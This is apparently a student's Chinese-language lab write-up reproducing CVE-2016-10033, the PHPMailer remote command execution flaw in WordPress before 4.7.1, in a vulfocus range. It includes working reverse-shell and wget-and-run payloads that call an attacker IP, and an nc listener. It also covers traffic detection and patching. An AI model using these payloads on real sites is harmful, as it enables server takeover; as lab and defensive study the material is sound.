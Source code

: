 # wordpress漏洞
## 漏洞复现
### 靶场搭建
网络结构搭建后，在vulfocus中启动靶场环境

![](image/exp2/进入wordpress.png)
经试验第二个网址可以成功访问wordpress页面

![](image/exp2/wordpress页面.png)
使用wordpress的扫描wpscan工具对该网页进行扫描，可以得知该网页的wordpress版本号为4.

![](image/exp2/wpscan扫描版本.png)
![](image/exp2/版本号.png)

经过查询，可以得知在4.7.1版本之前WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。漏洞编号为CVE-2016-10033

使用msf工具搜索CVE-2016-10033漏洞的相关信息
![1747587353915](image/exp2/1747587353915.png)发现漏洞可以使用

经过查询，得知漏洞页面是在用户忘记密码，获取新密码的页面，输入用户名后即发送邮件
![1747587598275](image/exp2/1747587598275.png)
使用burp suite和proxy进行设置，开启抓包
![1747587714955](image/exp2/1747587714955.png)
![1747587788327](image/exp2/1747587788327.png)
输入admin用户名后，点击get new password
![1747587840813](image/exp2/1747587840813.png)
之后查看burpsuite，找到lostpassword的相关包
![1747587945579](image/exp2/1747587945579.png)
点击send to repeater之后即可更改指令
![1747588054221](image/exp2/1747588054221.png)
![1747588153843](image/exp2/1747588153843.png)
接下来要开始构建payload，但有一些需要注意的地方执行的命令不能包含大量特殊字符，如 :、引号等。命令会被转换成小写字母  命令需要使用绝对路径  需要知道某一个存在的用户的用户名

接下来在攻击机构建一个cmd.sh的脚本，攻击机ip为192.168.37.5，脚本内容为
`bash -i >& /dev/tcp/192.168.37.5/9999 0>&1`
通过 TCP 连接将目标主机的 shell（命令行界面）反向连接到攻击机的指定 IP 地址和端口。端口号为9999
payload:
`aa(any -froot@localhost -be ${run{/usr/bin/wget --output-document /tmp/rce 192.168.157.137/cmd.sh}} null)`
执行反弹shell
`aa(any -froot@localhost -be ${run{/bin/bash /tmp/rce}} null)`
两个payload中的空格与/需要进行替换，经过查询后，将两个payload进行转换
`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce${substr{10}{1}{$tod_log}}192.168.157.137${substr{0}{1}{$spool_directory}}cmd.sh}} null) `

`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}bash${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce}} null)`
首先在攻击机上启用http服务，默认端口为80
![1747588713014](image/exp2/1747588713014.png)
然后执行第一个payload，在靶机上下载cmd.sh并改为rce
![1747588795093](image/exp2/1747588795093.png)
观察攻击机的反馈提示，返回码为200，即传输成功
![1747588897461](image/exp2/1747588897461.png)
接着在攻击机上，对端口9999，进行流量检测
`nc -lvnp 9999`
![1747588969751](image/exp2/1747588969751.png)
接着执行下一个payload，执行反弹shell
![1747589032570](image/exp2/1747589032570.png)
发现成功执行了反弹shell，使用命令ls /tmp即可成功获得flag，成功夺旗，标志着漏洞复现成功
![1747589184964](image/exp2/1747589184964.png)
## CVE-2016-10033漏洞利用检测
用tcpdump对网卡eth1进行流量检测，并再次进行攻击，将抓包的内容保存到capture.pcap,重复攻击流程后终止抓包
![1747589325437](image/exp2/1747589325437.png)
在wireshark中对capture.pcap的流量进行筛选，筛选条件为http，并试图从中找出可疑的数据包
发现有几个可疑的数据包，通过追踪http流进行进一步分析：

![1747589628905](image/exp2/1747589628905.png)
追踪http流后发现了相关的指令和返回的数据包

payload1![1747589708355](image/exp2/1747589708355.png)
payload2![1747589731849](image/exp2/1747589731849.png)
## 缓解与修复
### 缓解
部署 Web 应用程序防火墙 (WAF)：部署 Web 应用程序防火墙 (WAF) 来监视和过滤传入流量，以发现指示 RCE 攻击的可疑活动。 WAF 可以在恶意请求到达您的 WordPress 站点之前检测并阻止它们，从而提供针对网络威胁的额外防御层。
应用最小权限原则让 PHP 进程运行在无 sudo、无编译器、无 /usr/bin/wget 等高危二进制的受限账户下；即便注入成功，也难以进一步横向或持久化。
### 修复
将WordPress  升级到 ≥ 4.7.1（已内置 PHPMailer 5.2.21）WP 4.7.1 官方安全维护版已回溯修补此缺陷 或单独升级phpmailer版本
![alt text](image/exp2/image.png)

代码层面 避免 将任何未验证输入写入 Sender或from
## 遇到的问题
#### 1.登录vulfocus时显示服务器内部错误，查询相关资料后发现是redis服务启动出现了问题
![1747589893173](image/exp2/1747589893173.png)
![1747589919360](image/exp2/1747589919360.png)

进入容器后输入`redis-server`，再次访问vulfocus并进行登录，发现可以正常登录
#### 2.burp suite使用相关

yakit在使用中，对于发出的请求包有着严格的要求，导致请求包格式稍有差错就会发不出去，因此再搜索解决办法后决定使用burpsuite进行请求包发送的相关工作。

下载后进行设置，在设置中添加127.0.0.1：82，并在proxy中进行同步设置，使得流量流经burp suite，经过实践后发现使用burpsuite可以成功进行抓包并且进行请求包的发送及responce的收取
![1747590971305](image/exp2/1747590971305.png)
#### 3.代码小bug
在监听时将`nc -lvnp`代码 输入错误，导致执行shell时无响应，因此一直在验证第二个payload是否出现错误，耽误时间，后续发现代码问题并改正后成功使用漏洞。